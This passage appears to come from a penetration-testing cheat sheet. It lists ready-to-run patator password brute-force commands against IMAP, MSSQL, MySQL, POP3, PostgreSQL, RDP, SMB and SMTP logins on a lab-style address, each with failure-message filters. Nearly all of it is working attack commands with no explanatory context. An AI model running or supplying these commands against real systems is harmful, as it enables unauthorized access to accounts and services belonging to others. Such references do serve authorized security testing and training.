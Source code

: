 ### IMAP
```
patator imap_login host=10.10.10.10 user='<email>' password=FILE0 0='<passwords.txt>' -x 'ignore:fgrep=Authentication failed.'
```

### MSSQL (SQL server Authentication)
```
patator mssql_login host=10.10.10.10 user='<user>' password=FILE0 0='<passwords.txt>' -x ignore:fgrep='Login failed for user'
```

### MSSQL (Windows Authentication)
```
patator mssql_login windows_auth=1 host=10.10.10.10 user='<user>' password=FILE0 0='<passwords.txt>' -x ignore:fgrep='Login failed.'
```

### MySQL
```
patator mysql_login host=10.10.10.10 user='<user>' password=FILE0 0='<passwords.txt>' -x ignore:fgrep='Access denied for user'
```

### POP3
```
patator pop_login host=10.10.10.10 user='<user>' password=FILE0 0='<passwords.txt>' -x 'ignore:fgrep=Authentication failed.'
```

### PostgreSQL
```
patator pgsql_login host=10.10.10.10 database=<dbname> user='<user>' password=FILE0 0='<passwords.txt>' -x ignore:fgrep='password authentication failed for user'
```

### RDP
```
patator rdp_login host=10.10.10.10  user='<user>' password=FILE0 0='<passwords.txt>'
```

### SMB
```
patator smb_login host=10.10.10.10 user='<user>' password=FILE0 0='<passwords.txt>' -x ignore:fgrep='STATUS_LOGON_FAILURE'
```

### SMTP
```
patator smtp_login host=10.10.10.10 user='<email>' password=FILE0 0='<passwords.txt>' -x ignore:fgrep='authentication failed' -x ignore:fgrep='Temporary authentication failure' -x ignore,reset,retry:code=421
```
